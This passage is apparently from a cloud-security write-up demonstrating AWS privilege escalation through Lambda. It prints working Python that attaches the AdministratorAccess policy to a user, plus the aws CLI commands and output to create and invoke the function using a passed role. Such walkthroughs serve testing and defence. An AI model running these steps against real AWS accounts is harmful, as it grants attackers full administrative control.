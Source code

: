 To initiate the privilege escalation exploit, the attacker first creates some code that, when executed, will attach the Administrator policy to the attacker's user account:

`code.py`

```python
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(UserName='privesc_test',PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
    return response
```

The attacker then zips up the code file and creates a new lambda function. In the AWS command below, the attacker passes the lambda role with the iam:AttachUserPolicy permission to the function. In addition, note that the handler is the name of the Python file (minus the extension) followed by the defined function:

```bash
➜ zip function.zip code.py

adding: code.py (deflated 27%)

➜ aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::[REDACTED]:role/privesc15lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-west-2 --profile privesc
```

```json
{
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "CodeSha256": "jCxmafHHIfQ0ClMk/HF+16xxUxBFZGRFL5rGVnuXLeg=",
    "FunctionName": "privesc",
    "CodeSize": 321,
    "RevisionId": "d4007872-474a-4a24-9b8f-41e62391b6dd",
    "MemorySize": 128,
    "FunctionArn": "arn:aws:lambda:us-west-2:[REDACTED]:function:privesc",
    "Version": "$LATEST",
    "Role": "arn:aws:iam::[REDACTED]:role/privesc15lambda",
    "Timeout": 3,
    "LastModified": "2019-09-05T23:04:57.184+0000",
    "Handler": "code.lambda_handler",
    "Runtime": "python3.6",
    "Description": ""
}
```

The attacker then invokes the function to execute the code responsible for the privilege escalation:

```bash
➜ aws lambda invoke --function-name privesc output.txt --region us-west-2 --profile privesc
```
